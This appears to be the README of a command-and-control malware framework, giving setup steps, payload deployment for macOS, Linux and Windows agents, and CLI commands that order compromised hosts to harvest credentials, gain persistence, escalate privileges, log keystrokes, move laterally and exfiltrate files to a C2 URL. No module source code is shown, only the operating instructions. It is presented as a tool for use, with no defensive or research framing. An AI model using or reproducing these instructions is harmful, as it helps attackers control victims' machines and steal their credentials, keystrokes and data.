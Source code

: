 ### Installation and Setup

1. Clone the Repository
   git clone https://your-repo-url.git
   cd your-repo-directory

2. Create a Virtual Environment
   python -m venv venv
   source venv/bin/activate  # On Windows, use `venv\Scripts\activate`

3. Install Dependencies
   pip install -r requirements.txt

4. Prepare Payloads (If necessary)
   Ensure your payload scripts are in the `payloads` directory:
   - payloads/macos_payload.sh
   - payloads/linux_payload.sh
   - payloads/windows_payload.ps1

### Running the C2 Server

   python c2_server.py

### CLI Usage

1. List Agents
   python cli.py list-agents

2. Deploy Payload
   python cli.py deploy-payload <agent_type>
   Replace <agent_type> with macos, linux, or windows.

3. Select and Send Commands to an Agent
   python cli.py select-agent
   You can specify the agent ID directly or choose from a list of available agents.

4. Generate Report
   python cli.py generate-report

5. Send a Specific Command
   python cli.py send-command <agent_id> <command>

### Supported Commands

Credential Harvesting
   python cli.py send-command <agent_id> cred_harvest

Persistence
   python cli.py send-command <agent_id> persistence

Privilege Escalation
   python cli.py send-command <agent_id> priv_escalation

Reconnaissance
   python cli.py send-command <agent_id> reconnaissance

Data Exfiltration
   python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url>
   Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging
   python cli.py send-command <agent_id> keylogging

Lateral Movement
   python cli.py send-command <agent_id> lateral_movement

### Modules Directory Structure
Ensure you have a modules directory with the following structure and content:
modules/
    cred_harvest.py
    persistence.py
    priv_escalation.py
    reconnaissance.py
    exfiltration.py
    keylogging.py
    lateral_movement.py

